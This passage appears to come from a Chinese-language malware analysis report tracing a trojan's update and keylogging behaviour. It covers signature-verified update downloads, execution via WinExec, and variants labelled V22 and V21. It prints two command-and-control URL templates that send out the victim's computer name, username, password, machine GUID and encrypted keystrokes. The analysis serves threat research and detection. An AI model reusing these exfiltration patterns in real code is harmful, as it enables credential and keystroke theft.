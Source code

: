 更新木马下载成功后会再次下载签名文件进行验证，保存在`%temp%\\gtsdci32.tmp`中

```text
http://<C2domain>/2015/?c=<计算机名>&u=<用户名>&v=<版本>&s=<密码>&f=<文件夹>&mi=<machineguid_urlencoded>&b=<32/64bit>&t=<time_urlencoded>
```

![&#x5411;C2&#x8BF7;&#x6C42;&#x9A8C;&#x8BC1;&#x5176;&#x4E0B;&#x8F7D;&#x7684;&#x66F4;&#x65B0;&#x6587;&#x4EF6;](../../../.gitbook/assets/image%20%28853%29.png)

验证成功后，使用WinExec函数执行新下载回来的木马文件

![&#x9A8C;&#x8BC1;&#x6210;&#x529F;&#x540E;&#x4F7F;&#x7528;winexec&#x6267;&#x884C;&#x6728;&#x9A6C;&#x6587;&#x4EF6;](../../../.gitbook/assets/image%20%28858%29.png)

还会向C2传回加密后的键盘记录情况

```text
http://<C2domain>/en/d=<date>,text=<data>
```

后续的载荷并没有下载下来故此不能继续分析

上文中我们根据其C2通信的特征将其命名为**V22**

此外我们还发现了另外一个与之有相似宏代码的恶意文档，根据与C2通信的特征将版本命名为**V21**

**V21**样本中诱饵使用的文档截图:

